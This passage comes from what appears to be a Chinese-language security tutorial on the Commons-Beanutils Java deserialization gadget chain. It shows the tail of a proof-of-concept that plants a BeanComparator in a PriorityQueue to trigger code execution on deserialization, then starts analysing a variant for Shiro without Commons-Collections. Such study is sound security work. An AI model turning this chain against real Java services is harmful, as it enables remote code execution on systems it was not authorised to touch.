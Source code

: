 ```
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates,"_class",null);

        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue queue = new PriorityQueue (2);
        queue.add(1);
        queue.add(1);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,beanComparator);

        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("result.ser"));
        out.writeObject(queue);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("result.ser"));
        in.readObject();
    }
}
```

![image-20220307231739292](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307231739292.png)

但是需要Commons-Collections和Commons-Beanutils组件都要存在才可以RCE

# 无Commons-Collections依赖的gadget

## 漏洞分析

因为在一些时候是只有Commons-Beanutils依赖而不存在Commons-Collections依赖的

Commons-beanutils 本来依赖于 Commons-collections，但是在 Shiro 中，它的 commons-beanutils 虽然包含了一部分 commons-collections 的类，但却不全。这也导致，正常使用 Shiro 的时候不需要依赖于 commons-collections，但反序列化利用的时候需要依赖于commons-collections

所以在shiro中基本上是没有Commons-Collections依赖的

这个时候就需要利用BeanComaparator的这个构造器了

```
public BeanComparator(String property, Comparator<?> comparator) {
    this.setProperty(property);
    if (comparator != null) {
        this.comparator = comparator;
    } else {
        this.comparator = ComparableComparator.getInstance();
    }

}
```

第二个参数comparator默认情况下会使用Commons-Collections组件的ComparableComparator类，因为我们不需要使用Commons-Collections，使用这个comparator就需要去找一个实现了Comparator接口的类，而且还需要这个类实现了Serializable接口
